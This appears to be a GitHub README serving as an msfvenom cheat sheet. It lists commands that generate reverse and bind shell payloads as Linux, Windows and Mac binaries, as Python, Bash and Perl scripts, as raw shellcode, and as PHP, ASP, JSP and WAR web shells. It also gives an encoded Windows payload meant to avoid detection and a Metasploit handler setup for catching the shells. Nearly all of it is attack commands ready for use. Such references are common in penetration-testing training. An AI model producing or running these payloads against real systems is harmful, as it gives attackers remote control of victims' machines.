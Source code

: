 # MSFvenom payload creator

- [Binaries](#Binaries)
    - [Linux](#Linux)
- [Scripting](#Scripting)
- [Shellcode](#Shellcode)
- [Web](#Web)

- [Handlers](#Handlers)
- [Tools](#Tools)

# Binaries
- ## Linux
  - Meterpreter reverse shell
    - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
  - Meterpreter bind shell
    - msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Bind shell
    - msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Reverse shell
    

- ## Windows
  - Meterpreter reverse shell
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
  - Meterpreter bind shell
  
  - Reverse shell
    - msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
  - Bind shell
  
  - Meterpreter encoded reverse shell 
    - msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
  
- ## Mac
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

# Scripting 
- Python
  - msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
- Bash
  - msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
- Perl
  - msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
  
# Shellcode 
- Linux Based Shellcode
  - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Windows Based Shellcode
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Mac Based Shellcode
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
  
# Web 
- PHP
  - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
- ASP
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
- JSP
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
- WAR
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

# Handlers
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
## Tools
- https://github.com/g0tmi1k/msfpc
